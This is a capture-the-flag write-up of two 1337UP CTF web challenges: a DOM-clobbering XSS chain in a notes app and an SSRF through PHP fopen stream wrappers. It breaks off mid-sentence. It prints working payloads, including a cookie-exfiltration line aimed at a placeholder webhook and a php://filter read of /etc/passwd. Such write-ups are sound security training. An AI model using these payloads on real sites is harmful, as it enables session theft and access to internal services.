Overview
This weekend I played 1337UP CTF with SavedByTheShell, and despite not being able to try many
challenges, I had a lot of fun. Two of the more interesting/involved challenges I looked at were SafeNotes 2.0 and Greetings.
SafeNotes 2.0
If you know anything about the "notes" genre of challenges in the web category, it usually means you're in
for some XSS. With that in mind, let's take a look at the challenge! So let's open the site and see what's
going on:

Initial Enumeration
The site looks simple enough: we can create notes and with our noteID can view stored notes. So let's try
injecting some simple HTML into a note. Creating a note with the content

hello <b>world</b> gives us the following output:
Looks like we can get HTML injected into our note, so let's try to run some javascript:

<img src=1 onerror=alert(1)>.
Viewing the note doesn't run any javascript, and from the image above we can see the
onerror
handler is removed. This means that either the server or client is doing some sort of sanitization.
Source Code Analysis
Well, we've been ignoring the provided source code for too long so let's take a look! After opening the source in
VSCode, I decided to do a simple regex search for some common frontend sinks. One of the more common sinks
for XSS in the frontend are the

innerHTML and outerHTML fields. Since these are
fields of
a DOM object that must be assigned, we can use a simple regex search such as .*html = to find these sinks.
We see two pretty interesting sinks in
views.html, however let's look at the former.
function fetchNoteById(noteId) {
// Checking "includes" wasn't sufficient, we need to strip ../ *after* we URL decode
const decodedNoteId = decodeURIComponent(noteId);
const sanitizedNoteId = decodedNoteId.replace(/\.\.[\/\\]/g, '');
fetch("/api/notes/fetch/" + sanitizedNoteId, {
method: "GET",
headers: {
"X-CSRFToken": csrf_token,
},
})
.then((response) => response.json())
.then((data) => {
if (data.content) {
document.getElementById("note-content").innerHTML =
DOMPurify.sanitize(data.content);
document.getElementById("note-content-section").style.display = "block";
showFlashMessage("Note loaded successfully!", "success");
// We've seen suspicious activity on this endpoint, let's log some data for review
logNoteAccess(sanitizedNoteId, data.content);
} else if (data.error) {
showFlashMessage("Error: " + data.error, "danger");
} else {
showFlashMessage("Note doesn't exist.", "info");
}
// Removed the data.debug section, it was vulnerable to XSS!
});
}
Our sink is the html of
note-content being set to the output of our note. However, we see
that it's first passed into a call to DOMPurify.sanitize. This will strip out all the "bad"
elements in the HTML DOM object that could lead to javascript code execution. Bypassing the latest version of
DOMPurify is likely out of scope for this challenge, so let's shift our focus to the second sink we saw
(which is also hinted in the comments above):
<!-- Remember to comment this out when not debugging!! -->
<!-- <div id="debug-content-section" style="display:none;" class="note-panel">
<h2>Debug Information</h2>
<div id="debug-content" class="note-content"></div>
</div> -->
<!-- Some other code... -->
<script>
function logNoteAccess(noteId, content) {
// Read the current username, maybe we need to ban them?
const currentUsername = document.getElementById("username").innerText;
const username = currentUsername || urlParams.get("name");
// Just in case, it seems like people can do anything with the client-side!!
const sanitizedUsername = decodeURIComponent(username).replace(/\.\.[\/\\]/g, '');
fetch("/api/notes/log/" + sanitizedUsername, {
method: "POST",
headers: {
"Content-Type": "application/json",
"X-CSRFToken": csrf_token,
},
body: JSON.stringify({
name: username,
note_id: noteId,
content: content
}),
})
.then(response => response.json())
.then(data => {
// Does the log entry data look OK?
document.getElementById("debug-content").outerHTML = JSON.stringify(data, null, 2)
document.getElementById("debug-content-section").style.display = "block";
})
.catch(error => console.error("Logging failed:", error));
}
</script>
As we can see here the html element,

debug-content has its HTML content set to the output of
the call to /api/notes/log. We can also see that above this there is a commented out section of
html including the debug-content div. So if we create a note with a div element with the id
debug-content, then we can abuse this sink. So let's make a simple note:
<div id='debug-content'></div>
Nice! We were able to set the html content of the response to the api call. However, we want to get our user
input to be reflected, so we can't rely on that api call alone. We know that our username is used to build
the URL, so what if we abused this fact to traverse back to a different endpoint? Thus, our current attack
path is to make a username to call an abusable endpoint, which would look something like:
../../../endpoint_to_abuse.
Building an Exploit
Now that we know we have to reach an endpoint, we have to decide which endpoint we are going to abuse.
Looking at the source in
routes.py we can eliminate all endpoints that don't support
POST as a method since our fetch call uses that method. Looking through the filtered results we can
find
that the /contact endpoint reflects our username in the request. This means that if we can make
a request to /contact with a username that contains a XSS payload, then we will get javascript
execution on the target.
# People were exploiting an open redirect here, should be secure now!
@main.route('/contact', methods=['GET', 'POST'])
def contact():
if request.method == 'POST':
if request.is_json:
data = request.get_json()
username = data.get('name')
content = data.get('content')
if not username or not content:
return jsonify({"message": "Please provide both your name and message."}), 400
return jsonify({"message": f'Thank you for your message, {username}. We will be in touch!'}), 200
username = request.form.get('name')
content = request.form.get('content')
if not username or not content:
flash('Please provide both your name and message.', 'danger')
return redirect(url_for('main.contact'))
return render_template('contact.html', msg=f'Thank you for your message, {username}. We will be in touch!')
return render_template('contact.html', msg='Feel free to reach out to us using the form below. We would love to hear from you!')
Now that we have a goal to traverse back to
create, how can we do this? My first intuition was
to make a username that would traverse backwards, however the usernames were capped at 20 characters so this
did not pan out. So, we are left at an impasse... Unless, we think back to how our username is set:
const currentUsername = document.getElementById("username").innerText;
const username = currentUsername || urlParams.get("name");
The
currentUsername field is set by getting the innerText of the username element... So what if
we make our own element with the id username:
<div id="debug-content"></div>
<div id="username">This is my new username!</div>

So now, we can overwrite
username, so let's craft a payload. First, we'll have to bypass the regex
that checks for ../ which we can do by url encode the first . in ../ like so:
%252e./. This will make it so the call to fetch will see %2e./ which it will evaluate to
../. Next, we add our /create. But at this point, we must include our XSS payload without
breaking the url. Our solution? URL parameters! We can add a URL parameter to the end of our username that
will be essentially ignored by the fetch call but will still allow us to add arbitrary content (our
payload). So our payload will look like:
<div id="debug-content"></div>
<div id="username">%252e./%252e./%252e./%252e./contact?p=<img%20src=1%20onerror=alert(1)></div>

However, as we can see above, this doesn't work! It seems like the call to
DOMPurify.sanitize
is removing that XSS payload again. In some of the writeups after the CTF, someone noted that using HTML
encoding for the tags in img would bypass the filter and still allow XSS, however I totally missed
that! Instead, I opted towards using DOM Clobbering. Recall this
assignment from before: const username = currentUsername || urlParams.get("name");.
Essentially, if we can somehow cause currentUsername to be a falsy value, then we can use the name url
parameter to bypass the call to DOMPurify. Luckily for us, an empty string is falsy so we
can just make our username div empty, to let us use the name URL parameter in our note. We can use the same
payload as before through the name URL parameter. We just need to switch out every %252e./ to
a %25252e./ to account for the extra layer of URL encoding (since we're now sending the payload from
a
URL parameter). So the final payload will look something like:
<div id="debug-content"></div>
<div id="username"></div>
<!--
https://safenotes2-0.ctf.intigriti.io/view?note=[noteid]&name=%25252e./%25252e./%25252e./contact?p=%3Cimg%20src=1%20onerror=alert(1)%3E
-->

Let's go! Now just switch our

alert(1) to a webhook exfiltration such as
document.location=`[webhook]/?c=${document.cookie}` and send our URL to /report.
Final Thoughts on SecureNotes 2.0
Overall, this was a whole lot of fun! The path to exploitation was nice and not too overwhelming, leading to
a very gratifying solve. Thanks to the author for the chall!
Greetings
Now this challenge gets into some really, really fun exploitation. I spent most of the evening right before
CTF end trying to crack this one and got it 30 minutes before the CTF ended! So without further ado, let's jump
into the challenge!

So we are given a very simple homepage where we can enter our name, and that name is reflected back to us.
However, there is very little going on in the frontend. We are given source code so let's take a look at that instead.
Source Code Analysis
There's a lot of code to look at, so to get the idea of what's important, let's take a look at the
docker-compose file.
services:
web:
build: ./php
ports:
- "80:80"
- "3000"
- "5000"
restart: always
node:
build: ./node
restart: always
network_mode: service:web
flask:
build: ./flask
environment:
FLAG: INTIGRITI{fake_flag}
restart: always
network_mode: service:web
Looks like there are three services web, node, and flask running a php, nodejs, and python server
respectively. However, it looks like only one of them is exposed to the user on port 80 while the others are
only available internally. Well, let's work backwards and take a look at the service with the flag: flask.
from flask import Flask, request
import os
app = Flask(__name__)
@app.route("/flag", methods=["GET", "POST"])
def flag():
username = request.form.get("username")
password = request.headers.get("password")
print(f"username={username}",flush=True)
print(f"password={password}",flush=True)
if username and username == "admin" and password and password == "admin":
return os.getenv('FLAG')
return "So close"
@app.get('/test')
def test():
return "test"
app.run(host='0.0.0.0', port=5000)
There are two endpoints here:
/test and /flag, and if we call /flag with the correct
parameters then we get the flag. However, we can't just visit /flag directly because it's on port
5000 which is not exposed remotely to the user in the docker-compose file. So, with this in mind let's take
a look at the node service next.
const express = require("express");
const app = express();
app.get("*", (req, res) => {
res.send(`Hello, ${req.path.replace(/^\/+|\/+$/g, "")}`);
});
app.listen(3000, () => {
console.log(`App listening on port 3000`);
});
This looks like another internal server that reflects whatever route the user browses to in the response. The response we see looks familiar to the output we see when we type a name in the frontend application. Either way, we can't know for sure until we view the php web application.
<?php
if(isset($_POST['hello']))
{
session_start();
$_SESSION = $_POST;
if(!empty($_SESSION['name']))
{
$name = $_SESSION['name'];
$protocol = (isset($_SESSION['protocol']) && !preg_match('/http|file/i', $_SESSION['protocol'])) ? $_SESSION['protocol'] : null;
$options = (isset($_SESSION['options']) && !preg_match('/http|file|\\\/i', $_SESSION['options'])) ? $_SESSION['options'] : null;
try {
if(isset($options) && isset($protocol))
{
$context = stream_context_create(json_decode($options, true));
$resp = @fopen("$protocol://127.0.0.1:3000/$name", 'r', false, $context);
}
else
{
$resp = @fopen("http://127.0.0.1:3000/$name", 'r', false);
}
if($resp)
{
$content = stream_get_contents($resp);
echo "<div class='greeting-output'>" . htmlspecialchars($content) . "</div>";
fclose($resp);
}
else
{
throw new Exception("Unable to connect to the service.");
}
} catch (Exception $e) {
error_log("Error: " . $e->getMessage());
echo "<div class='greeting-output error'>Something went wrong!</div>";
}
}
}
?>
Now we're talking! This php code looks very interesting to us, so let's step through what it's doing. On a
POST request with the hello and name parameters set, the server will make a call to fopen with our untrusted user input. If you know about fopen, it allows users to open a file or remote connection. It then returns a resource stream that is used to get the content returned by the call. In this case, our user input via the name parameter is appended to a url that connects to localhost:3000. In addition to the name parameter, we can specify protocol and options parameters which are added to the front of the stream and its context respectively. With all of this in mind, it seems our goal is to pass in user input into fopen, that allows us to make a call to /flag such that it receives all of its needed parameters.
Exploitation Attempts
This next part of the challenge required a lot of documentation reading and even more trial and error. So let's jump into some attempts at exploiting this thing. The first thing I tried was to an

@ to the end of the URL via the name parameter such that the URL would interpret the first part as userinfo (credentials) and my input at the host to reach out to. However, this did not work as there is a / before our user input meaning the URL would parse our input as purely a route.
So if we can't use the

name parameter on its own, then we'll have to use protocol and options as well. However, these new fields have a restriction, they both cannot include the strings file or http, therefore we'll have to work around this. After playing around with the filter for a while, I realized it would not be easy to bypass so instead I looked through the supported schemes and wrappers in PHP. I first looked into the php I/O stream wrappers where I found the filter wrapper. What's interesting about this wrapper is that it lets us load resources on the server and then pass them through the filters we provide.
There are two issues here: the first being that the host is appended to the resource we are trying to load (making it invalid) and the second is that even if we are able to load local resources, the filter will block any remote http resource loading. So let's instead treat the invalid host as our filter list and using the name parameter from before, we'll load a resource. This will make our URL look something like:

php://filter/localhost:3000/resource=/etc/passwd. So let's try it:
Nice! Although the filters will throw warnings, they will mostly be ignored so our desired resource will be loaded. We can try to read files however since the flag is on another container, we can't do much more unless we access remote resources. So let's set resource to
http://localhost:5000/flag and see what happens:

So that's promising, that is the response from
/flag! We are luckily given the options field to make context options for our stream. However, when I tried to pass through an HTTP context options stream, it was not accepted as valid options. At first, I thought this was the regex check, but even after removing the check and running the code locally, it was still rejected. This same exact options stream works perfectly fine when the scheme is http, my testing showed that php://filter just doesn't accept and/or pass through the context stream. Unfortunately, it seems that the challenge cannot be solved this way, but as I was looking at other context streams, I noticed something very interesting about ftp in php...
Building Our (Actual) Exploit
Let's take a look at the ftp context stream options.

Interesting... We can proxy our FTP request through an HTTP proxy server. So let's send an ftp request to

/flag that is proxied towards the internal flask server on localhost:5000.
Interesting, it looks like our request went through. What does the request look like though? Let's host our own listener on the container on port 6000, send a request, and see what the request looks like:

That HTTP request doesn't look quite right... This looks like an FTP over HTTP request meaning the route is the FTP URL (which is expected behavior for any HTTP proxy), however it looks like it is going to
